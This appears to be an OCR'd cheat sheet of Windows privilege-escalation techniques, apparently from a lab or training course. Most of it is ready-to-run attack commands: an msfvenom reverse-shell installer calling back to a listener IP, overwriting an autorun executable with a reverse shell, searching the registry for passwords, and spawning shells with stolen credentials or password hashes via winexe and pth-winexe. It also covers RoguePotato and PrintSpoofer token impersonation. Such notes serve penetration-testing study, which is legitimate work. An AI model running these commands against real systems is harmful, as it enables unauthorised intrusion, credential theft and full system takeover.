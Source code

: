 ### Registry - AutoRuns
- query the registry for AutoRun executables: `reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`
- check who can write executable: `C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"`
- copy reverse shell to executable: `copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y`
- make sure the executable runs

### Registry - AlwaysInstallElevated keys
- Query the registry for AlwaysInstallElevated keys: `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
- or: `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
- `0x1` means installers run with elevated privileges
- generate reverse shell installer: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi`
- run installer: `msiexec /quiet /qn /i C:\PrivEsc\reverse.msi`

### Registry - Passwords
- search registry for keys with the name 'password': `reg query HKLM /f password /t REG_SZ /s`
- query one of the found keys: `reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"`
- spawn command prompt with found credentials: `winexe -U 'admin%password' //10.10.193.40 cmd.exe`

### Passwords - Saved Creds
- list saved creds: `cmdkey /list`
- run as user with saved creds: `runas /savecred /user:admin C:\PrivEsc\reverse.exe`

### Get a shell with found password hashes
- `pth-winexe -U 'admin%hash' //10.10.105.39 cmd.exe` (hash = [NT hash]:[NTLM hash])

### Scheduled tasks
- check if any scheduled tasks run as SYSTEM
- let the scheduled script run the reverse shell

### Insecure GUI apps
- example: Paint runs with SYSTEM privileges
- file > open > reverse.exe

### Token impersonation
- from local service to system with Rogue Potato: `C:\PrivEsc\RoguePotato.exe -r 10.10.10.10 -e "C:\PrivEsc\reverse.exe" -l 9999`
- from local service to system with PrintSpoofer: `C:\PrivEsc\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i`

### Windows Privesc Scripts
- winPEASany.exe
- Seatbelt.exe
- PowerUp.ps1: `wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1`
- SharpUp.exe
